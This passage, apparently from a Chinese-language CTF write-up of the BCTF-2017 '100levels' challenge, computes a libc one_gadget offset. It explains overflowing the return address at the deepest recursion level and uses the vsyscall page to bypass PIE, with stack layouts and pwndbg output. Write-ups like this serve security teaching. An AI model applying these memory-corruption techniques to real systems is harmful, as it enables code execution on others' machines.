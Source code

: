 ```python

In [6]: one_gadget = 0x4526a

In [7]: system_offset
Out[7]: '0x45390'

In [10]: int(system_offset,16) - one_gadget
Out[10]: 294
```

相对偏移是294，所以v3应该输入-294

第一次`level()`调用时的初始缓冲区溢出将不允许我们使用我们放在堆栈上的libc地址。这是因为由于`level()`函数是递归的，函数的第1000次调用将是我们遇到的第一个函数。因为存在递归，为了维持栈平衡我们要在最后一关即将返回的时候控制返回地址。所以我们只是玩游戏999次，直到我们一直走回调用堆栈。这会将我们的溢出放入libc地址的范围内。

question函数的栈布局如下(base ebp)

```assembly
-0000000000000030 buf             dq ?
-0000000000000028 var_28          dq ?
-0000000000000020 var_20          dq ?
-0000000000000018 var_18          dq ?
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C var_C           dd ?
-0000000000000008 var_8           dd ?
-0000000000000004 var_4           dd ?
+0000000000000000  s              db 8 dup(?)    ; ebp
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

首先，现在one_gadgets的值在栈中 esp+10h的位置，由于开启了PIE可以用vsyscall来做nop

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /media/psf/pwn/XCTF/BCTF-2017/1000levevls/100levels
    0x555555755000     0x555555756000 r--p     1000 1000   /media/psf/pwn/XCTF/BCTF-2017/1000levevls/100levels
    0x555555756000     0x555555757000 rw-p     1000 2000   /media/psf/pwn/XCTF/BCTF-2017/1000levevls/100levels
    0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dcd000     0x7ffff7dd1000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd1000     0x7ffff7dd3000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd3000     0x7ffff7dd7000 rw-p     4000 0      
    0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7fdb000     0x7ffff7fde000 rw-p     3000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
pwndbg> x /6i 0xffffffffff600000
   0xffffffffff600000:	mov    rax,0x60
   0xffffffffff600007:	syscall 
   0xffffffffff600009:	ret    
   0xffffffffff60000a:	int3
```
